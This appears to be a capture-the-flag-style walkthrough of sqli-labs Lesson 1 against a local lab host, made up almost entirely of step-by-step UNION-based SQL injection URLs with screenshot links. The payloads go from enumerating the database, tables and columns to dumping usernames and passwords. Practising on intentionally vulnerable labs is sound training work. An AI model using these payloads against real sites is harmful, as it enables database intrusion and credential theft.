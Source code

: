 
```
http://10.10.10.171/sqli-labs/Less-1/?id=1
```

<img src="https://i.imgur.com/18hCpK2.png">

```
http://10.10.10.171/sqli-labs/Less-1/?id=1'
```

<img src='https://i.imgur.com/htJkkqN.png'>

```
http://10.10.10.171/sqli-labs/Less-1/?id=0' union select 1'
```

<img src="https://i.imgur.com/hJEtyJh.png">

<img src"https://i.imgur.com/MJUNkIL.png">


```
http://10.10.10.171/sqli-labs/Less-1/?id=0'  union select 1,2,3'
```

<img src="https://i.imgur.com/w8wwEZG.png">

```
http://10.10.10.171/sqli-labs/Less-1/?id=0' union select 1,2,CONCAT_WS(CHAR(32,58,32),user(),database(),version())'
```

<img src="https://i.imgur.com/FwMAvfG.png">

```
http://10.10.10.171/sqli-labs/Less-1/?id=0' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' '
```

<img src='https://i.imgur.com/OE9zG48.png'>


```
http://10.10.10.171/sqli-labs/Less-1/?id=0' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='security' and table_name = 'users' '
```

<img src='https://i.imgur.com/d2BOwTQ.png'>

```
http://10.10.10.171/sqli-labs/Less-1/?id=0' union select 1,2,group_concat(concat_ws(char(32,58,32),id,username,password)) from users %23
```

<img src="https://i.imgur.com/Q4WuHPN.png">